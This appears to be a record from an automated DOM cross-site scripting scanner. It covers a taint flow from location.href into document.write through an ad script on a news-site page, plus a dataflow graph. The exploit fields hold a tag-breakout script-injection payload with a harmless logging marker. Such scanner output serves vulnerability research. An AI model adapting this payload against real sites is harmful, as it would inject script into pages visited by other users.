 // Finding: c3a0d235-f4da-40e2-8d2f-bc42365b6e60
// Finding.url: https://www.example16.com/ag-says-currently-no-reason-to-remove-netanyahu-from-his-role/
// Finding.parentloc: https://www.example16.com/ag-says-currently-no-reason-to-remove-netanyahu-from-his-role/##'></iframe></style></script></object></embed></textarea><script>taintfoxLog('1fa3e8aea345419ebde88a67921a04a7')</script><!--/*
// Finding.domain: www.example16.com
// Finding.base_domain: example16.com
// Finding.source: location.href
// Finding.sink: document.write
// Sanitizer.score: 1
// Sanitizer.name: SekindoClientDetections_URL/this.setInfo
// Sanitizer.location: https://live.example5.com/live/liveView.php?s=106158&cbuster=2120811262&pubUrl=https://www.example16.com/ag-says-currently-no-reason-to-remove-netanyahu-from-his-role/%23%23%27%3E%3C/iframe%3E%3C/style%3E%3C/script%3E%3C/object%3E%3C/embed%3E%3C/textarea%3E%3Cscript%3EtaintfoxLog(%271fa3e8aea345419ebde88a67921a04a7%27)%3C/script%3E%3C!--/*&subId=[SUBID_ENCODED]&x=1&y=1 - SekindoClientDetections_URL/this.setInfo:621:7
// Finding.begin: 420
// Finding.end: 528
// Finding.original_uuid: ea5daf9b-d060-4143-936b-233269ecb012
// Finding.TwentyFiveMillionFlowsId: 711731968
// Finding.script: https://live.example5.com/live/liveView.php?s=106158&cbuster=2120811262&pubUrl=https://www.example16.com/ag-says-currently-no-reason-to-remove-netanyahu-from-his-role/%23%23%27%3E%3C/iframe%3E%3C/style%3E%3C/script%3E%3C/object%3E%3C/embed%3E%3C/textarea%3E%3Cscript%3EtaintfoxLog(%271fa3e8aea345419ebde88a67921a04a7%27)%3C/script%3E%3C!--/*&subId=[SUBID_ENCODED]&x=1&y=1
// Finding.line: 915
// Exploit.uuid: 1fa3e8ae-a345-419e-bde8-8a67921a04a7
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: src
// Exploit.quote_type: '
// Exploit.tag: script
// Exploit.break_out: #'></iframe></style></script></object></embed></textarea><script>
// Exploit.break_in: </script><!--/*
// Exploit.payload: #'></iframe></style></script></object></embed></textarea><script>taintfoxLog(1)</script><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 92
// Exploit.replace_begin_url: 92
// Exploit.replace_end_url: 92
// Exploit.replace_begin_param: 347
// Exploit.replace_end_param: 347
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -485826505
// DepGraph.sanitizer_hash: 555275006

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="encodeURIComponent"];
n2 [shape=box, label="Var: x"];
n3 [shape=ellipse, label="."];
n4 [shape=box, label="Lit: &pubUrlAuto="];
n5 [shape=ellipse, label="."];
n6 [shape=box, label="Lit: https://live.example5.com/live/liveView.php?s=106158&cbuster=21....pt%3E%3C!--/*&subId=[SUBID_ENCODED]&x=1&y=1&cbuster=1619709838"];
n7 [shape=ellipse, label="str_replace_once"];
n8 [shape=box, label="Lit: SEKXLEN"];
n9 [shape=box, label="Lit: 1"];
n10 [shape=box, label="Var: x"];
n11 [shape=ellipse, label="str_replace_once"];
n12 [shape=box, label="Lit: SEKYLEN"];
n13 [shape=box, label="Lit: 1"];
n14 [shape=box, label="Var: x"];
n15 [shape=ellipse, label="str_replace_once"];
n16 [shape=box, label="Lit: '"];
n17 [shape=box, label="Lit: %27"];
n18 [shape=box, label="Var: x"];
n19 [shape=ellipse, label="str_replace_once"];
n20 [shape=box, label="Lit: /liveView.php"];
n21 [shape=box, label="Lit: /prebid-ads.php"];
n22 [shape=box, label="Var: x"];
n23 [shape=ellipse, label="."];
n24 [shape=box, label="Lit: &csuuid=608acf8eefb6e"];
n25 [shape=ellipse, label="."];
n26 [shape=box, label="Lit: &videoType=flow&floatWidth=400&floatHeight=225&floatDirection=....1&floatCloseBtn=1&flowMode=below&flowCloseButtonPosition=right"];
n27 [shape=box, label="Var: x"];
n28 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n3 -> n4;
n3 -> n1;
n5 -> n6;
n5 -> n3;
n10 -> n5;
n7 -> n8;
n7 -> n9;
n7 -> n10;
n14 -> n7;
n11 -> n12;
n11 -> n13;
n11 -> n14;
n18 -> n11;
n15 -> n16;
n15 -> n17;
n15 -> n18;
n22 -> n15;
n19 -> n20;
n19 -> n21;
n19 -> n22;
n23 -> n19;
n23 -> n24;
n25 -> n23;
n25 -> n26;
n27 -> n25;
n28 -> n27;
}